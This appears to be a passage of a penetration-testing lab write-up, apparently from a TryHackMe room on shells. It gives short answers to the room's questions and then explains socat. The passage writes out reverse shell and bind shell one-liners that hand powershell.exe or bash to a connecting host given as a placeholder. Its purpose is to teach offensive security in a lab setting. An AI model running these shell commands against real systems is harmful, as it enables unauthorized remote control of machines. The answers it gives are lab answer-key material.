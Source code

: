 This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# Answer the questions below
How would you change your terminal size to have 238 columns? `stty cols 238`

What is the syntax for setting up a Python3 webserver on port 80? `sudo python3 -m http.server 80`

## Task 6 Socat
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

## Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`
